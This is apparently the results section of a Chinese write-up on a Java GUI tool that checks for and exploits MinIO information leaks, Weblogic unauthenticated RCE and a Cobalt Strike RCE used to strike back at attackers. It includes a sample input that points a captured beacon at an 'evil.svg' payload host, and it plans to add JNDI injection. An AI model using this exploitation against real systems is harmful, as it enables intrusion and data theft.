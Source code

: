 

#### 实现效果

工具测试结果：

​	1）选择该漏洞时回显界面会显示本地自查漏洞的方法，点击检测按钮回显文本框新增如何反制的方法，如图

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201645354.png" alt=" GUI界面检测按钮功能" style="zoom:50%;" />



 

​	2）输入本地木马地址，搭建的SVG地址，点击执行，对方Cobalt Strike客户端弹出计算器。如用户输入：*C:\Users\romanc9\Desktop\beacon.exe http:// 10.211.55.6:9898/evil.svg*，效果如图

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201646695.png" alt="实现反制运行计算器" style="zoom:50%;" />



​	同时反制端开启的Web服务收到访问请求并获取到对方IP，如图

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201647798.png" alt="Windows10开启的Web服务记录请求记录" style="zoom:50%;" />



#### **注意事项🚩：**

​	1）Java里调用HTTP POST访问时要加UA头模拟浏览器访问，而不是使用普通的Java代码来进行访问，普通的使用URLConnection访问项目会报错HTTP响应返回400。

​	2）调用Python文件的方法：使用Java中的InputStream来读取/resources目录下的文件，将文件读入内存，并将其写入到一个临时文件（file）中，然后本地执行该文件，而不能简单以文件完整路径的方式来指定文件位置，因为在打包后，文件位置发生了变化，如图

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201647937.png" alt="jar包里调用的Python文件路径直接写绝对路径会报错" style="zoom:50%;" />



## 4. 总结与改进方向



针对GUI工具对三种漏洞的检测结果分析：

| **漏洞类型**                  | **测试结果**                                                 | **不足之处**                                                 | **优化方向**                                                 |
| ----------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| MinIO信息泄露漏洞             | 能直观地检测网站是否存在漏洞，并利用漏洞获取敏感信息         | 对漏洞利用只是直接的返回HTTP完整响应，需要人为筛选有用信息，且未实现RCE功能 | 可通过关键词检索键值对关键信息展示，如账号密码，免去人工检。后续添加对RCE的检测 |
| Weblogic未授权远程代码执行漏  | 能通过检测和利用两方面实现对网站的漏洞验证和利用             | 测试结果仅局限于成功利用漏洞向LDAP服务器发送请求，需要人为通过LDAP服务器访问记录判断是否存在漏洞以及漏洞利用结果 | 漏洞检测可通过添加DNSlog API爬取访问记录判断漏洞是否存在；漏洞利用可通过集成JNDI注入工具实现LDAP服务器预处理，这样无需自行搭建LDAP服务器，优化使用 |
| Cobalt Strike远程代码执行漏洞 | 能直接使用该工具和捕获的木马实现对攻击者的反制，获取对方信息 | 用户需自行准备SVG文件和恶意jar包并搭建服务器                 | 工具提前本地生成所需文件并开启Web服务，方便直接使用，Java FX偶尔卡顿，还需改进性能，可以尝试多线程之类的 |
|                               |                                                              |                                                              |                                                              |

​	相较于普遍采用的命令行界面Python实现漏洞利用工具，本文采用Java Swing框架实现GUI界面，提供图形化界面，使得用户可以更加直观地点击操作和控制漏洞测试过程，而不需要记忆和启动命令行输入复杂参数，优化使用体验。

​	不过，在常规日常渗透测试中，漏扫多为多目标，目前GUI界面仅实现了该三种新漏洞的**单目标**探测和利用，且通过输出的程序运行时间发现有些部分运行速度较慢（cs部分），下一步可优化程序效率：通过输出的程序运行时间，我们可以找到程序中耗时较长的部分，进而进行优化和改进，可以尝试采用多线程运行以提高利用效率。针对多目标，下一步可以研究文件导入功能以扩大目标检测范围，以及对应的，针对大范围扫描的结果导出功能模块集成到Swing GUI中有待进一步研究。
